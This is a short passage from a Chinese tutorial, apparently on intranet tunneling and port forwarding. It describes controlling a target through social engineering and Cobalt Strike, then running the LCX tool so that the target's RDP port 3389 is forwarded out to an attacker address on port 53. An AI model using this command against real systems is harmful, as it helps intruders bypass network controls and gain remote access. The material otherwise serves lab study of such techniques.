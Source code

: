 ![image-20241019144259449](内网隧道代理技术/image-20241019144259449.png)	

```
此时攻击机无法通过3389来远程连接靶机。那么通过社工等方法，来使用cs来控制这台靶机。将LCX工具上传到靶机运行，在靶机上运行以下命令，将本地的3389端口转发到192.168.15.1(攻击机)的 53端口
lcx转发工具.exe -slave 192.168.15.1 53 127.0.0.1 3389
```

![image-20241019144919747](内网隧道代理技术/image-20241019144919747.png)	

```
此时攻击机也能收到一些监听信息。
```

![image-20241019144951086](内网隧道代理技术/image-20241019144951086.png)	
